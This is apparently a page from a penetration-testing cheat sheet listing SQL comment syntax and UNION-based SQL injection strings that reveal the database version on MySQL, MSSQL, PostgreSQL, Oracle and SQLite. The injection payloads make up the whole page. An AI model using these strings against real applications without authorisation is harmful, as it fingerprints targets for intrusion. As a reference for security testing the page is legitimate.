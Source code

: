 # Other payloads

## Comments/DB Version

{% tabs %}
{% tab title="MySQL" %}
```sql
#comment
-- comment     [Note the space after the double dash]
/*comment*/
/*! MYSQL Special SQL */

# DB version:
' UNION SELECT @@version, NULL-- -
```
{% endtab %}

{% tab title="MSSQL" %}
```sql
--comment
/*comment*/

-- DB verison:
' UNION SELECT @@version, NULL-- -
```
{% endtab %}

{% tab title="PostgreSQL" %}
```sql
--comment
/*comment*/

-- DB version:
' UNION SELECT version(), NULL-- -
```
{% endtab %}

{% tab title="Oracle SQL" %}
```sql
--comment

-- DB version:
UNION SELECT BANNER, NULL FROM v$version-- -
UNION SELECT version, NULL FROM v$instance-- -
```
{% endtab %}

{% tab title="SQLite 3" %}
```sql
--comment
/*comment*/

-- DB version:
select sqlite_version();
```
{% endtab %}
{% endtabs %}
